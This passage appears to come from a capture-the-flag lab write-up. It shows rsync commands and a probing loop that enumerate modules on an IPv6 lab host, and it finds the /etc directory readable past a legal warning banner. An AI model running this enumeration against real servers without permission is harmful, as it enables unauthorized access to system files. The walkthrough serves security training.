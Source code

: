     
    @ERROR: access denied to var from UNDETERMINED (dead:beef:2::1003)
    rsync error: error starting client-server protocol (code 5) at main.c(1675) [Receiver=3.1.3]
    

I can check them all with a loop:

    
    
    root@kali# rsync --list-only -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/ | grep "Backup access to" | cut -d' ' -f1 | while read dir; do rsync --list-only -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/${dir}/ 2>&1 | grep -q "access denied" && echo "[-] ${dir}: denied" || echo "[+] ${dir}: ACCESS GRANTED"; done
    [-] bin: denied
    [-] boot: denied
    [-] lib: denied
    [-] lib64: denied
    [-] opt: denied
    [-] sbin: denied
    [-] srv: denied
    [-] usr: denied
    [-] var: denied
    

That loop breaks down as:

  * `rsync --list-only -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/` \- List the modes
  * `grep "Backup access to"` \- isolate the lines with the paths
  * `cut -d' ' -f1` \- isolate the paths
  * `while read dir; do` \- loop over the paths
  * `rsync --list-only -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/${dir}/ 2>&1` \- try to list that path, forwarding stderr to stdout
  * `grep -q "access denied"` \- `grep` without printing anything, just succeeding or failing
  * `&& echo "[-] ${dir}: denied" || echo "[+] ${dir}: ACCESS GRANTED";` \- print message based on `grep` return code.

I did notice that the message of the day says that there are modules for
“Backup access” and “Cloud Sync”, but only “Backup access: ones show up.
Eventually, I tried other directories typically found at the system root.
`/home/` failed, but `/etc/` worked:

    
    
    root@kali# rsync --list-only -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/etc/                                                                                                          
    ****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******
    
    You must have explicit, authorized permission to access this rsync
    server. Unauthorized attempts and actions to access or use this
    system may result in civil and/or criminal penalties.
    
    All activities performed on this device are logged and monitored.
    
    ****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******
    
    @ZE::A staff
    
    This rsync server is solely for access to the zetta master server.
    The modules you see are either provided for "Backup access" or for
    "Cloud sync".
    